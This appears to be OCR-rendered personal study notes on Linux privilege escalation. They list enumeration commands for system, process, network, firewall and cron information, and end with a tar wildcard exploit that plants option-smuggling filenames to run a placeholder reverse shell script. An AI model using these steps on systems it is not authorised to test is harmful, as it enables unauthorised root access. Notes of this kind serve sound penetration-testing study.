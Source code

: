 >[!code]- System information
>- `hostname` shows the hostname
>---
>Operating system release and version:
>- `/etc/issue`
>- `/proc/version`
>- `/etc/os-release`
>- `uname -a`
>- `dpkg --print-architecture`

>[!code]- Running process & services
>`ps auxww` lists system processes - are any that are running as root vulnerable?
>
>---
>We can see which processes are running each command:
>```bash
>joe@debian-privesc:~$ watch -n 1 "ps -auxww"
>```
>___
>
>Pspy (check running commands - any cron jobs running?)
>```bash
>./pspy64
>```

>[!code]- Network interfaces, route, and open ports
>`ip a` or `ifconfig a` shows network adapter information.
>
>---
>
>`route` or `routel` shows the network routing table.
>
>---
>`netstat` or `ss` shows active network connections and listening ports.
>	`-a` list all connections
>	`-n` avoid hostname resolutions
>	`-p` list the process name the connection belongs to
>`netstat -tulpn`
>###### [JDWP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-jdwp-java-debug-wire-protocol) (port 8000)

>[!code]- Firewalls
>We **must** have _root_ privileges to list firewall rules with _iptables_.
>```powershell
>cat /etc/iptables/rules.v4
>sudo iptables -L
>```

>[!code]- Scheduled tasks (cron)
>###### List
>```bash
>cat /etc/crontab
>ls -lah /etc/cron*/
>grep "CRON" /var/log/syslog  # running jobs
>```
>###### Wildcard exploit - [guide](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
>```powershell
>cd /opt/admin
>echo "reverse shell command" > shell.sh
>echo '' > --checkpoint=1
>echo '' > "--checkpoint-action=exec=sh shell.sh"
>```
